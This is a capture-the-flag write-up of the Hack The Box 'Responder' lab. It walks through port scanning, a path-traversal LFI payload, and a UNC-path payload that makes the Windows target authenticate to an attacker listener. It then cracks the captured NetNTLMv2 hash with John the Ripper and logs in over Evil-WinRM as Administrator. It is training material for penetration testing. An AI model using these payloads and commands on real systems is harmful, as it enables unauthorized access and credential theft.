





# Responder

    

Lab link: [Responder](https://app.hackthebox.com/starting-point)

## Completion proof


## Overview

Responder is a Very Easy Hack The Box Starting Point machine focused on web parameter analysis, Local File Inclusion (LFI), Windows network authentication, NetNTLMv2 password recovery, and remote access through WinRM.

## Objective

The objective was to investigate the web application, trigger an authentication request to the lab listener, recover the account password from the captured challenge/response, and access the Windows host to retrieve the flag.

## Scope

All activity was limited to the authorized Hack The Box Starting Point target. Personal VPN and target IP addresses, captured authentication material, credentials, and the flag are obscured in the screenshots and omitted from the text.

## Reconnaissance

I scanned all TCP ports to identify the services exposed by the active lab target:

```bash
nmap -Pn -p- -T4 --min-rate 2000 <target-ip>
```

The scan found HTTP on port 80, WinRM on port 5985, and an additional service on port 7680. HTTP was the entry point for investigating the page parameter; WinRM later provided remote shell access.


## Investigation process

### 1. Resolving the lab host name

Opening the target by IP returned a redirect to `unika.htb`. I mapped that host name to the current lab target in `/etc/hosts`, then loaded the site using the host name. The browser screenshot captures the initial resolution problem that led me to check the local host mapping.



### 2. Identifying the application and input parameter

I inspected the response headers with `curl`:

```bash
curl -I http://<target-ip>/
```

The response headers identified Apache on Windows running PHP. The URL used a `page` parameter to select page content. Since this value controls which content is loaded, I investigated whether it was safely restricted.



### 3. Testing for local file inclusion

I tested whether the `page` parameter could access a local file outside the intended web directory by supplying a Windows path traversal sequence:

```text
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

The response displayed the Windows `hosts` file and PHP warnings referenced the application include operation. This confirmed that path traversal through `page` could make the server read a local file outside the intended page content.


### 4. Capturing the authentication exchange

I then supplied a UNC-style network path that pointed back to my VPN interface:

```text
http://unika.htb/index.php?page=//<vpn-ip>/somefile
```

The filename was a placeholder; the test was intended to make the Windows server attempt a remote SMB path. I started Responder on the HTB VPN interface:

```bash
sudo responder -I tun0
```

Responder reported that it was listening on `tun0`. The page request caused the target to initiate an authentication exchange, which Responder recorded in its logs. The screenshot below shows the request and listener context; sensitive addresses are obscured.



### 5. Recovering the password with John the Ripper

The captured value was a NetNTLMv2 challenge/response, not a plaintext password. I used the supplied `rockyou` wordlist with John the Ripper to test candidate passwords:

```bash
sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz
john --wordlist=/usr/share/wordlists/rockyou.txt \
  /usr/share/responder/logs/SMB-NTLMv2-SSP-<target-ip>.txt
```

John loaded the captured NetNTLMv2 challenge/response and found a matching password candidate for the `Administrator` account. The screenshot demonstrates the successful crack while obscuring the hash, password, and addresses.



### 6. Connecting through WinRM and locating the flag

The service scan showed WinRM on TCP port 5985. I used the recovered account details with Evil-WinRM:

```bash
evil-winrm -i <target-ip> -u Administrator -p <recovered-password>
```

The successful connection opened a PowerShell-style remote shell. I navigated to the `mike` user's desktop, listed its contents, and read `flag.txt`:

```powershell
cd C:\Users\mike\Desktop
dir
type flag.txt
```



The terminal evidence shows the file being read. Usernames, command-line credentials, and the flag value are obscured in the screenshots and not repeated here.


## Technical analysis

The central issue was an unsafe file inclusion parameter. The application accepted a user-controlled `page` value and passed it to PHP's include logic without sufficiently restricting the path. Directory traversal allowed local file access (LFI). A UNC path caused the Windows host to attempt a remote resource access, which resulted in an NTLM authentication exchange to the Responder listener.

Responder did not recover the plaintext password directly. It captured the challenge/response generated by the Windows authentication protocol. John the Ripper then tested wordlist candidates by calculating the expected response and comparing it with the captured value.

## Lessons learned

- Inspect URL parameters that control file or template loading.
- Test traversal carefully and interpret application warnings as useful evidence.
- Understand the difference between LFI, RFI, and a remote authentication side effect.
- Select the correct VPN interface when running network listeners such as Responder.
- Use service enumeration to choose the appropriate remote access tool; WinRM on 5985 led to Evil-WinRM rather than RDP.

## Result

The Responder challenge objective was completed successfully. The completion proof appears at the beginning of this write-up, followed by evidence in the order the investigation was performed.
